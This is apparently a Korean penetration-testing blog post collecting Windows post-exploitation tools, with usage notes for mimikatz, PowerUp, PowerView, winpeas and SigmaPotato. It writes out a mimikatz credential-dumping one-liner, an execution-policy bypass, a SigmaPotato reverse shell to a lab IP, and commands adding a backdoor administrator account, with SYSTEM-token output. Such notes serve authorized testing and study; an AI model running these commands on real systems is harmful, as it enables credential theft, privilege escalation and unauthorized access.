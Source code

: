 ```yaml
---
layout: post
title: 유용한 윈도우 툴 모음집
subtitle: 많이 쓰는 윈도우 툴 모음집
category: knowledge
thumbnail-img: /assets/img/hazard.jpg
tags: [windows, tool]
author: Hong
---
```


이번에는 저번 포스팅에 이어서 윈도우 편.

# mimikatz

debug privilege가 있을 때 사용 할 수 있는 툴.

로컬 시스템의 유저 정보와 NTLM해쉬 등을 알 수 있다.

[mimikatz](https://github.com/ParrotSec/mimikatz/tree/master)

evil-winrm의 경우 mimikatz를 실행하면 버그가 걸리는데 이럴 때는 리버스쉘로 옮기거나 원라이너로 명령어를 넘겨주면 된다.

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
```

# Runas

GUI 환경에서 사용할 수 있는 툴.

다른 유저로서 조작하는게 가능하다.

래터럴 무브먼트에 사용하거나 관리자로 실행하는데 활용할 수 있다.

```
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...

PS C:\Users\steve>
```

# winpeas

linpeas의 윈도우 버전.

[winpeas](https://www.kali.org/tools/peass-ng/)

# seatbelt.exe

winpeas같은 툴

# powerup.ps1

칼리에 기본적으로 깔려있다.

`cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .`

쓰기 권한을 가진 파일들을 조회하는게 가능하다.

```
PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```

# powerview.ps1

이것도 칼리에 기본적으로 있는 툴.

도메인 정보를 파악할 때 유용하다.

사용하기 전에 모듈을 임포트해서 사용한다. `Import-Module`

# sigmapotato

SeImpersonatePrivilege Impersonate a client after authentication Enabled일 때 사용 할 수 있는 툴.

[sigmapotato](https://github.com/tylerdotrar/SigmaPotato/releases/tag/v1.2.6)

바로 리버스쉘로 연결하는 것도 가능하다.

`.\SigmaPotato.exe --revshell 192.168.45.181 9999`

그 밖에도 유저를 추가하거나 수정하는 것도 할 수 있다.

```
.\SigmaPotato "net user hong password /add"

PS C:\temp> .\SigmaPotato.exe "net user hong password /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 932 | Token: 0x660 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1020
[+] Current Command Length: 27 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 5532

[+] Process Output:
The command completed successfully.

.\SigmaPotato "net localgroup Administrators hong /add"

PS C:\temp> .\SigmaPotato.exe "net localgroup Administrators hong /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 932 | Token: 0x660 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1016
[+] Current Command Length: 39 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 6184

[+] Process Output:
The command completed successfully.
```

# winsimpleHTTP

감탄했던 툴 중에 하나.

파이썬이 설치되어 있지 않아도 간단하게 웹서버를 세울 수 있다. 파일을 옮기거나 할 때 편리하다.

[winsimplehttp](https://github.com/remisarrailh/WinSimpleHTTP)
